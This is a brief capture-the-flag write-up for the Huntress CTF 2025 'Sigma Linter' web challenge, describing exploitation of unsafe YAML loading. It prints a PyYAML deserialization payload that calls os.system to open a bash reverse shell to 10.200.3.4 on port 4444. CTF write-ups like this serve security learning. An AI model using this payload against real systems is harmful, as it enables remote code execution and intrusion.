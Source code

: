 ```yaml
---
title: "Huntress CTF 2025 Writeup: Sigma Linter"
date: 2025-11-01 16:36:48 +0100
categories: ["Huntress CTF 2025"]
tags: ["Web", "CTF", "Huntress", "Deserialization"]
---
```


>Oh wow, another web app interface for command-line tools that already exist!
>This one seems a little busted, though...
---
![sigma-linter-1.png](https://raw.githubusercontent.com/AbdulRKB/img/refs/heads/main/Huntress%20CTF%202025/sigma-linter-1.png)

I learnt that the webapp was validating yaml, and so I tried to carry out a deserialization attack.

I added a new line and entered the [following code](https://morgan-bin-bash.gitbook.io/linux-privilege-escalation/python-yaml-privilege-escalation) (found by my teammate) while listening on port `4444`:

```yaml
user_input: !!python/object/new:os.system ['bash -c "bash -i >& /dev/tcp/10.200.3.4/4444 0>&1"']
```


And I was in!! After that, I just catt'd the flag.

![sigma-linter-2.png](https://raw.githubusercontent.com/AbdulRKB/img/refs/heads/main/Huntress%20CTF%202025/sigma-linter-2.png)
